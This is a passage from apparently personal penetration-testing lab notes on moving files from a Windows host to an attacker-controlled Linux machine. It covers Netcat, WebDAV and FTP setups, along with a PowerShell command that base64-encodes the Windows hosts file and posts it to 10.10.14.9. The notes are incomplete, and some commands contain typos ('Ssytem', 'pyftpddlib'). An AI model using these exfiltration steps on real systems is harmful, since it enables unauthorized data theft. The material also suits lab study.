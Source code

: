 The second upload method (upload a string) needs Netcat on remote Linux host

```bash
nc -lnvp 8000
```

Now, I can insert a base64 string in the body request and send it to the remote host

```powershell
$b64 = [Ssytem.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://10.10.14.9/ -Method POST -Body $b64
```

<figure><img src="../../../../.gitbook/assets/netcat-linux-upload.png" alt=""><figcaption></figcaption></figure>

When I receive the base64 string on the web server, I can convert it.

```bash
echo 'IyBDb3B5cmlnaHQg...bnRy' | base64 -d -w 0 > hosts
```

## WebDAV

To configure the WebDAV server, I have to install 2 Python modules.

```bash
sudo pip install wsgidav cheroot
```

Then, I run `wsgidav` in the target directory.

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

... _(Need more content)_ ...

## FTP Uploads

I can create a FTP server on my Linux host. The flag `--write` allows clients to upload files.

```bash
sudo python3 -m pyftpddlib --port 21 --write
```

Then, I can upload my file from Windows with Powershell and I have to set the absolute path for the source file.

